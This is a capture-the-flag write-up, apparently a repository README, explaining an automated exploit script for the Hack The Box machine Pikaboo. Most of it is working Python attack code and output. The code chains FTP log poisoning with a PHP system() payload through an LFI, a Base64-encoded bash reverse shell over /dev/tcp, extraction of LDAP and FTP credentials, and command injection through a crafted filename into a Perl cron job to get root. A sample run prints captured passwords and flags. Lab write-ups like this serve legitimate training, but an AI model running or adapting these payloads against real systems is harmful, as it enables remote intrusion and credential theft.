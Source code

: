 # Hack The Box. Machines. Pikaboo

Machine write-up: https://7rocky.github.io/en/htb/pikaboo

### `autopwn.py`

This is a Python script that automates all the steps needed to compromise the machine. These are the steps:

- Log poisoning
- Shell as `www-data`
- System enumeration
- LDAP enumeration to get `pwnmeow`'s FTP password
- Store malicious file via FTP for command injection
- Shell as `root`

All these steps can be followed in the main function:

```python
def main():
    ftp = FTP(rhost)

    rev_shell = f'bash -i  >& /dev/tcp/{lhost}/{lport} 0>&1'.encode()
    command = f'echo {b64e(rev_shell)} | base64 -d | bash'

    shell = log_poisoning(ftp, command)
    user = user_enum(shell)
    ldap_user, ldap_password = ldap_enum(shell)

    log.info(f'Found LDAP user: {ldap_user}')
    log.info(f'Found LDAP password: {ldap_password}')

    ftp_password = ldap_search(shell, user, ldap_user, ldap_password)

    log.info(f'Found FTP password: {ftp_password}')

    shell = command_injection(ftp, user, ftp_password, command)
    root_flag(shell)

    log.success('Got shell as root')
    shell.interactive(prompt='')
```

First we define the reverse shell command as a Bash command encoded in Base64. Something like his:

```console
$ echo -n 'bash  -i >& /dev/tcp/10.10.17.44/4444 0>&1' | base64 
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTcuNDQvNDQ0NCAwPiYx
```

Then we use `log_poisoning` to obtain a shell as `www-data`:

```python
def log_poisoning(ftp, command: str):
    log_file = '/var/log/vsftpd.log'
    lfi_website = f'http://{rhost}/admin../admin_staging/index.php'
    log_poisoning_url = f'{lfi_website}?page={log_file}'

    try:
        ftp.login(f'<?php system("{command}"); ?>', 'asdf')
    except error_perm:
        log.info(f'FTP log ({log_file}) has been poisoned')
        sleep(5)

    Thread(target=requests.get, args=(log_poisoning_url, )).start()

    return listen_for_shell()
```

What it does is basically login to FTP with a username that contains PHP code, and then use an LFI vulnerability to include the FTP log file and execute the PHP code (which contains a system command with the reverse shell).

The function `listen_for_shell` does what its name says:

```python
def listen_for_shell(timeout: int = 20):
    shell = listen(lport, timeout=timeout).wait_for_connection()

    if shell.sock is None:
        log.error(f'Could not connect to {rhost}')

    return shell
```

After obtaining a shell, we get the `pwnmeow` username and capture the `user.txt` flag:

```python
def user_enum(shell) -> str:
    shell.sendlineafter(b'$', b'ls /home')
    shell.recvline()
    user = shell.recvline().decode().strip()

    log.info(f'Found user: {user}')
    sleep(1)

    shell.sendline(f'cat /home/{user}/user.txt'.encode())
    shell.recvline()
    user_txt = shell.recvline().decode().strip()

    log.warning(f'Found user.txt: {user_txt}')
    sleep(1)

    return user
```

Then, we find some LDAP credentials in file `/opt/pokeapi/config/settings.py` (read the [write-up](https://7rocky.github.io/en/htb/pikaboo) for more information). We need to use some regular expressions to extract the desired values:

```python
def ldap_enum(shell) -> Tuple[str]:
    shell.sendline(b'cat /opt/pokeapi/config/settings.py')
    shell.recvuntil(b'DATABASE')
    settings = shell.recv(2048, timeout=2).decode()

    ldap_settings = re.findall(r'''
\s+"ldap": {
    \s+"ENGINE": ".*?",
    \s+"NAME": ".*?",
    \s+"USER": "(.*?)",
    \s+"PASSWORD": "(.*?)",
\s+}''', settings)

    ldap_user, ldap_password = ldap_settings[0]
    return ldap_user, ldap_password
```

Once we have credentials for LDAP, we can use `ldapsearch` command using the function `ldap_search` (again, read the [write-up](https://7rocky.github.io/en/htb/pikaboo) for more details). Regular expressions are needed too:

```python
def ldap_search(shell, user: str, ldap_user: str, ldap_password: str) -> str:
    base = 'dc=ftp,dc=pikaboo,dc=htb'
    ldapsearch = f"ldapsearch -xD {ldap_user} -w '{ldap_password}' -b {base}"

    shell.sendline(ldapsearch.encode())
    shell.recvuntil(user.encode())
    res = shell.recv(2048, timeout=2).decode()

    ftp_password_enc = re.findall(r'userPassword:: (.*?)$', res, re.MULTILINE)
    return b64d(ftp_password_enc[0]).decode()
```

Finally, we perform a command injection into a Cron job exploiting a Perl open argument injection vulnerability.

To make this action work, the file must be crafted in a singular way and uploaded to a directory inside `/srv/ftp`. And this task must be done using Python's `ftplib` library and instructions (find library documentation [here](https://docs.python.org/3/library/ftplib.html)).

To create the malicious file, a system command (namely, `os.system`) must be used to avoid errors. Afterwards, the file is removed with another system command.

```python
def command_injection(ftp, ftp_user: str, ftp_password: str, command: str):
    filename = f'|{command}|.csv'
    os.system(f"touch '{filename}'")

    ftp.login(ftp_user, ftp_password)

    dirs = []
    ftp.dir(dirs.append)
    directory = dirs[0].split()[-1]

    ftp.cwd(directory)

    ftp.storlines(f'STOR {filename}', open(filename))
    log.info('Stored malicious file with injected command in filename')

    os.system(f"rm '{filename}'")
    ftp.close()

    return listen_for_shell(timeout=120)
```

Additionally, we have another function to capture the `root.txt` flag:

```python
def root_flag(shell):
    shell.sendlineafter(b'#', b'cat /root/root.txt')
    shell.recvline()
    root_txt = shell.recvline().decode().strip()

    log.warning(f'Found root.txt: {root_txt}')
```

Finally, we can execute the script and compromise the machine with just one click:

```console
$ python3 autopwn.py 10.10.17.44
[*] FTP log (/var/log/vsftpd.log) has been poisoned
[+] Trying to bind to :: on port 4444: Done
[+] Waiting for connections on :::4444: Got connection from ::ffff:10.10.10.249 on port 47390
[*] Found user: pwnmeow
[!] Found user.txt: f3417b113fe715a58e02f9e29fe6c736
[*] Found LDAP user: cn=binduser,ou=users,dc=pikaboo,dc=htb
[*] Found LDAP password: J~42%W?PFHl]g
[*] Found FTP password: _G0tT4_C4tcH_'3m_4lL!_
[*] Stored malicious file with injected command in filename
[+] Trying to bind to :: on port 4444: Done
[+] Waiting for connections on :::4444: Got connection from ::ffff:10.10.10.249 on port 47396
[!] Found root.txt: 3904cd5b02fd88be5264107d52282460
[+] Got shell as root
[*] Switching to interactive mode
root@pikaboo:/srv/ftp/abilities#
```

**Note:** The previous code snippets are shown only as an explanation, the complete source code is a bit different due to global variables and the imported libraries.

